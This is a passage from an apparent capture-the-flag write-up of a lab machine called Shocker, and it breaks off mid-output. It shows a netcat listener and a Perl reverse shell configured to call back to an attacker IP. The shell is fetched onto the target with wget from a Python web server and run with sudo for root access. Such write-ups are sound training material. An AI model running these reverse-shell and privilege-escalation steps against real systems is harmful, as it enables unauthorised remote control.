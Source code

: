 {{< highlight html >}}

nc -nlvp 4456
listening on [any] 4456 ...

{{< /highlight  >}}

I have a perl reverse shell under `/usr/share/webshells`. I have to edit the *perl-reverse-shell.pl* file to specify where to send the reverse shell:

{{< highlight html >}}

# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.18';
my $port = 4456;

{{< /highlight >}}

At this point I can set up a python server and retrieve the shell from the target machine:

{{< highlight html >}}

python -m SimpleHTTPServer 8888
Serving HTTP on 0.0.0.0 port 8888 ...

{{< /highlight >}}

On target:

{{< highlight html >}}

shelly@Shocker:/home/shelly$ wget http://10.10.14.18:8888/perl-reverse-shell.pl
$ wget http://10.10.14.18:8888/perl-reverse-shell.pl                        
--2020-06-16 14:14:01--  http://10.10.14.18:8888/perl-reverse-shell.pl
Connecting to 10.10.14.18:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3714 (3.6K) [text/x-perl]
Saving to: 'perl-reverse-shell.pl'

     0K ...                                                   100% 1.65M=0.002s

2020-06-16 14:14:01 (1.65 MB/s) - 'perl-reverse-shell.pl' saved [3714/3714]


{{< /highlight >}}

Now I can launch the perl reverse shell and see I get a connection back with root privileges! That was easy!

On target:

{{< highlight html >}}

shelly@Shocker:/home/shelly$ sudo /usr/bin/perl perl-reverse-shell.perl
sudo /usr/bin/perl perl-reverse-shell.perl
Content-Length: 0
Connection: close
Content-Type: text/html
